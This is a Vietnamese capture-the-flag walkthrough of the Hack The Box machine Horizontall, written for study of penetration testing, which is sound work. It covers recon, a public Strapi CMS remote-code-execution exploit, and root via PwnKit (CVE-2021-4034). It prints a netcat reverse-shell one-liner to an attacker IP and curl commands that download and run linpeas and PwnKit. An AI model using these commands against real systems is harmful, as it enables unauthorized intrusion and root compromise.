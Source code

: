 ![image](https://hackmd.io/_uploads/HkD2LxZjR.png)

# Machine info and Comment
## Machine info
[Link](https://app.hackthebox.com/machines/374/information)

## Comment
Đây là một máy có lỗ hổng SSTI to RCE sau đó tiến hành leo quyền 

# Recon
## nmap 
Sau khi nmap ta scan được **2** port ssh và http 
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -n -sS 10.10.11.105       
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:46 EDT
Nmap scan report for 10.10.11.105
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 3.30 seconds
```
Từ đây, ta sẽ scan tiếp 2 port này xem có gì để khai thác
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p22,80 -sCV 10.10.11.105
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:48 EDT
Nmap scan report for 10.10.11.105
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.99 seconds
```
Thêm domain `horizontall.htb` vào `/etc/hosts`sẽ có trang chúng ta cần

## Port 80 - http
Khi truy cập vào ta có giao diện trang web

![image](https://hackmd.io/_uploads/S1mr2x-oC.png)

Trang web này không có một tính năng gì. Khi dùng devtool để kiểm tra các gói được load, `app.c68eb462.js` đề cập đến 1 subdomain khác là **api-prod.horizontall.htb**

![image](https://hackmd.io/_uploads/BJ-bAgWj0.png)

Thêm subdomain `api-prod.horizontall.htb` vào `/etc/hosts` sẽ có trang mới xuất hiện

![image](https://hackmd.io/_uploads/r1xZJWWiR.png)

## Gobuster 
Kết quả ban đầu của ta từ Gobuster không thú vị lắm
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/img                  (Status: 301) [Size: 194] [--> http://horizontall.htb/img/]
/css                  (Status: 301) [Size: 194] [--> http://horizontall.htb/css/]
/js                   (Status: 301) [Size: 194] [--> http://horizontall.htb/js/]
```
Tương tự với subdomain ta có 3 path khác với `users` đã bị 403
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://api-prod.horizontall.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://api-prod.horizontall.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/reviews              (Status: 200) [Size: 507]
/users                (Status: 403) [Size: 60]
/admin                (Status: 200) [Size: 854]
```

Với `/reviews` ta chưa thu thậm được gì nhiều về thông tin

![image](https://hackmd.io/_uploads/H1JXlbWiC.png)

Với `/admin` ta có 1 trang web sử dụng CMS Strapi 

![image](https://hackmd.io/_uploads/H1IdebWjA.png)

# User flag
## Exploit
### Searchsploit

![image](https://hackmd.io/_uploads/BkNE7ZWi0.png)

Nó cho ta kết quả của 3 loại khác thác đầu tiên lạm dụng cách Strapi xử lý sai các yêu cầu đặt lại mật khẩu; và thứ hai cho phép thực thi mã từ xa trong các thành phần cài đặt plugin vì nó không kiểm tra tên plugin.

`50237.py`

Đọc file này ta có thể xem được version của web mình là **3.0.0-beta.17.4**

![image](https://hackmd.io/_uploads/SkH_Lb-iC.png)

![image](https://hackmd.io/_uploads/SyuUIZZsC.png)

Từ đây khai thác bằng `Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)` 

![image](https://hackmd.io/_uploads/Bki_KZ-i0.png)

### Reverse shell
Vì nó là blind RCE khi chạy script nên ta sẽ dùng reverse dshell để nghe 
```
mkfifo /tmp/lol;nc 10.10.14.93 1234 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```
![image](https://hackmd.io/_uploads/HyeyqZ-iR.png)

## Post-Exploit
```
$ cd /home
$ ls
developer
$ cd developer
$ ls
composer-setup.php
myproject
user.txt
$ cat user.txt
bf57a050fcb876ba6eb********
```
# Root flag
## Exploit
Tải linPeas về máy mục tiêu và chạy file
```
$ cd /tmp
$ curl http://10.10.14.93:8888/linpeas.sh -o linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.s
```
Khi chạy LinPeas ta thấy mục tiêu dễ bị tấn công bởi **CVE-2021-4034** (PwnKit privesc). Đây là một lỗ hổng leo thang đặc quyền trong linux sử dụng [PwnKit](https://github.com/ly4k/PwnKit?ref=avitek.blog). 

![image](https://hackmd.io/_uploads/HylYoWWiC.png)

```
#Máy tấn công 
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit

#Máy mục tiêu
$ curl http://10.10.14.93:8888/PwnKit -o PwnKit
$ chmod +x PwnKit                                    
$ ./PwnKit
mesg: ttyname failed: Inappropriate ioctl for device
id
uid=0(root) gid=0(root) groups=0(root),1001(strapi)
```
## Post-Exploit
```
cat /root/root.txt
4113991bda122b655c8a6*****
```

![image](https://hackmd.io/_uploads/HyNszfboA.png)


